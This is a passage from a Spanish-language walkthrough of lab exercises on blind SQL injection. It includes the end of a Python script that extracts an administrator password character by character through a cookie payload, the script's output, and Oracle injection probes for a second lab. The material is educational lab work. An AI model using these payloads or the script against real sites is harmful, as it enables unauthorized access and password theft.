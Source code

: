 ```python
                                'TrackingId': "BvroHPKR23vLwHzo' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'QPWCx6VEaIuh5N4noRLLTg5sziXnpfQ5'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if "Welcome back!" in r.text:
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```

Donde pone `TrackingId` tendremos que poner el nuestro que aparece en la captura de BurpSuit hasta antes de la `'`, donde pone `session` igual, lo que nos aparezca a nosotros y por ultimo donde pone `main_url` lo que contiene nuestro `host` en el `request` capturado añadiendole `https://`...

```shell
python3 SQLI_Conditional_Response.py
```

Info:

```
[◢] Fuerza bruta: BvroHPKR23vLwHzo' and (select substring(password,20,1) from users where username='administrator')='b
[<] Password: 8jumk2e52dxl45m51lgb
```

Una vez hecho todo esto tendriamos la contraseña, la probamos y ya estaria hecha...

### Lab: Blind SQL injection with conditional errors

En esta parctica lo que debemos de hacer es parecido a la anterior pero en este caso hay que jugar con los errores de la pagina, por lo que nos tendremos que guiar por eso...

Utilizaremos el BurpSuit para capturar la peticion de la pagina y llevandolo al `Repeater` con `^R` podremos ir probando hay inyecciones de comandos...

```mysql
'||(select '')||';
```

Si lo dejamos asi nos dara error por lo que nos da a entender que tiene que ser otro tipo de base de datos la que se esta manejando...

```mysql
'||(select '' from dual)||';
```

Si ponemos eso si nos va a ir, por lo que estamos trabajando con un `Oracle`, ahora para seguir viendo si vamos bien haremos diferentes comprobaciones de si estamos acertando la tabla o no...
